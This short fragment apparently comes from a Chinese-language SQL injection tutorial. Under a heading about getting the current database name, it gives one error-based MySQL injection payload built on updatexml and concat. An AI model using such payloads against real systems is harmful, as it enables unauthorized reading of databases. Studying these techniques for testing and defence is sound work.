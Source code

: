 ![image-20250222152451911](static/image/image-20250222152451911.png)

#### 获取当前数据库名

```mysql
updatexml(null,concat(0x7e,(select database()),0x7e),null)
```

